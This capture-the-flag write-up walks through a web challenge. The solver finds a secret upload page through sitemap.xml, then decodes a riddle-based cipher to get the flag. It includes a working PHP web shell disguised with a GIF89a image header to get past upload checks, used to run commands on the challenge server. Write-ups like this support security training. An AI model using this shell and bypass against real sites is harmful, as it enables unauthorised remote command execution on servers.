







# not yet

**Difficulty:** Medium
**Category:** Web
**Author:** M3551
**Description:** Think you're almost there? Not yet

## link
http://nex-zero.nexus-security-club.com:4033

## Solution
Entering the link we find some text:



we see "MAP" written in bold so it's a hint to look in [sitemap.xml](https://developers.google.com/search/docs/crawling-indexing/sitemaps/overview?hl=en) file


navigating to sitemap.xml file, 


we see a weird comment:

```<!--  110211221237232238208202234234212190204161105169167165228228228228209190207184184207212197188156100152195181203225218211215211195203213213221221206216160170  -->```

it seems like an encrypted text but how? let's continue!!

in the same file we see a secret route : ```http://nex-zero.nexus-security-club.com:4033/s3cR33Ttt.php```

navigating to it we find an upload functionality that allows us to upload only images using headers check 


so we need to bypass it with adding an image header to our php script to get a shell:

### shell.php
```php
GIF89a;
<?
system($_GET['cmd']);
?>
```

uploading this script we'll see that it's succesfully uploaded and we can find the file at /uploads/shell.php


navigating to this path using a `cmd` get parameter with a command as value we'll notice that it's successfully executed:




so we need to search for interesting files in the server:
taking a look at /home we'll find 2 files: `flag.txt` that contains a fake flag `nexus{000000f_c00ur555553_th1s_i5_4_F4k3_Fl4g}`



and `encryption.txt` that contains a riddle to understand how the comment found in sitemap.xml was encrypted:



```In the world of tech, a secret's tale, An encryption dance, a digital veil. Start with the first, its ASCII's code, In three digits, it's bestowed. Then onward to the next, a simple stride, Add the ASCII of the previous guide. A journey through letters, a digital dance,```

in summary it sais that the first 3 digits are the ASCII value of the 1st char then the second is the sum of the ascii of the 1st + the ascii of the current, so the n th char is encoded with it's ascii + the ascii of it's previous, so to decrypt it all we have todo is take the reverse path:

```python
ciphertext = "110211221237232238208202234234212190204161105169167165228228228228209190207184184207212197188156100152195181203225218211215211195203213213221221206216160170"
decrypted_text = ""
prev_ascii = 0
    
for i in range(0, len(ciphertext), 3):
    chunk = ciphertext[i:i+3]
    encrypted_ascii = int(chunk)
    decrypted_ascii = encrypted_ascii - prev_ascii
    decrypted_text += chr(decrypted_ascii)
    prev_ascii = decrypted_ascii

print(decrypted_text)
                          
```


## Output
nexus{Uuuu__m45t3rrrrr__pHp_uPl04d_Vulnerabilities-}
                    
## Flag

`nexus{Uuuu__m45t3rrrrr__pHp_uPl04d_Vulnerabilities-}`